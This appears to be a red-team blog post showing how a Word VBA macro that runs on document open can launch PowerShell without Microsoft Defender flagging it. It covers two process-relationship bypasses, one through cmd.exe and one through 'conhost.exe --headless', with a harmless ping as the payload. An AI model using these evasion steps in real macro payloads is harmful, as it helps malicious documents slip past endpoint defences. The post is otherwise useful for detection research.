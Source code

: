 ```yaml
---
title: Defender Bypass - Spawn PowerShell Using Macros
date: "2021-10-22"
featuredImage: './logo.png'
---
```


Bypass Microsoft Defender when spawning a powershell.exe process from MS Word<!-- end -->.

# Parent/Child Process Relationship

Security solutions often monitor process relationships to detect malicious behaviour. With Microsoft Defender, if you attempt to spawn `powershell.exe` from MS Word, it will automatically flag it as a malicious program, regardless of what the spawned PowerShell process does. Let's explore how we can bypass this detection.

## Spawning PowerShell (The Detected Way)

Below we have an innocent looking VBA script that spawns PowerShell.exe via the `Shell` command and runs `ping google.com`.

    Sub AutoOpen()
    Test
    End Sub

    Sub Document_Open()
    Test
    End Sub

    Sub Test()
    Shell "powershell.exe -c ping google.com", vbNormalFocus
    End Sub

Unfortunately, Defender doesn't seem to agree that it's innocent. PowerShell has been abused to an extent where Microsoft Defender doesn't seem care what the command does.

<img src="./triggered.png" width="400px" height="300px"/>

If we go view 'Protection History' we can see its being treated as a Trojan.

![Trojan](./malicious.png)

## Spawning PowerShell (The Clean Way)

With an additional 10 characters to our command, Microsoft Defender won't complain anymore. We're going to modify our `Shell` command as shown below.

    # Before
    Shell "powershell.exe -c ping google.com", vbNormalFocus

    # After
    Shell "cmd.exe /c powershell.exe -c ping google.com", vbNormalFocus

![Bypass](./bypass-vid.gif)

Below we can see how the parent/child relationship was modified.

![child-processes-before](./child-processes-before.png)

![child-process-after](./child-processes.png)

## Avoiding Cmd.exe

Although `cmd.exe` is a better alternative than `powershell.exe`, it's still a highly monitored process by defenders. A better way which avoids `cmd.exe` is shown below.

    Shell "conhost.exe --headless powershell.exe -c ping google.com", vbNormalFocus

This way `cmd.exe` and `powershell.exe` are avoided as direct child processes.

![Conhost](./conhost-child.png)

## Why Does This Work?

After looking into this simple bypass it seems that Defender blacklists `powershell.exe` as a direct child process. In pseudocode it's probably programmed something like this:

`if WINWORD.exe spawns PowerShell.exe then Trojan`

Clearly we don't fit the above description so we're good!


# Conclusion

In a real engagement you should probably avoid the `Shell` command altogether, but the point of this post is to demonstrate how small modifications in behaviour can result in a different outcome. 
